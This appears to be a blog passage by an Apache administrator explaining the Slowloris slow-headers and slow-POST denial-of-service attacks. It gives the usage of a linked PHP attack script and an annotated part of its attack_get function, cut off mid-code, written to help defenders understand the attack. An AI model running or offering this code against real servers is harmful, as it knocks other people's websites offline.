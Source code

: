 I run Apache, so, naturally, I was (and still am) concerned about this attack vector. The first step in preventing and solving security problems lies in understanding the attack. Luckily, in this case, the attack isÂ devilishlyÂ simple. Based on a PHP version of the original Slowloris attack ([found here](http://seclists.org/fulldisclosure/2009/Jun/207)), I wrote a modified script which also included the new POST-based attack method. The extended version of the script can be found on [Github](https://gist.github.com/771824).

The usage is straightforward:

    ./scriptname.php <method> <number of processes> <server> [host]`

Where:

  - `<method>` is either "get" for the "slow-headers" based attack, or "post" for the new variant;/li>
  - `<number of processes>` determines the number of concurrent requests, around 300 does the trick in most cases;
  - `<server>` is the hostname or IP address of the server you want to target;
  - `[host]` is an optional parameter which will be used in the "Host:"-request header. If left blank the same value as  will be used.

The script really illustrates how simple the attacks are, lets comment a bit on the `attack_get` function:

    function attack_get($server, $host){
        # The following lines set up a normal HTTP1.1 GET request with Keep-Alive
        $request  = "GET / HTTP/1.1\r\n";
        $request .= "Host: $host\r\n";
        # Spoof User-Agent (can be changed)
        $request .= "User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT5.1; .NET CLR 1.1.4322; .NET CLR 2.0.50727)\r\n";
        # The following header is, strictly speaking, not necessary, all HTTP1.1 requests are kept alive
        $request .= "Keep-Alive: 900\r\n";
        # Just make the Content-Length large enough
        $request .= "Content-Length: " . rand(10000, 1000000) . "\r\n";
        $request .= "Accept: *.*\r\n";
        # First custom header, name can be changed
        $request .= "X-a: " . rand(1, 10000) . "\r\n";

        # Open socket to webserver and send request
        $sockfd = @fsockopen($server, 80, $errno, $errstr);
        @fwrite($sockfd, $request);
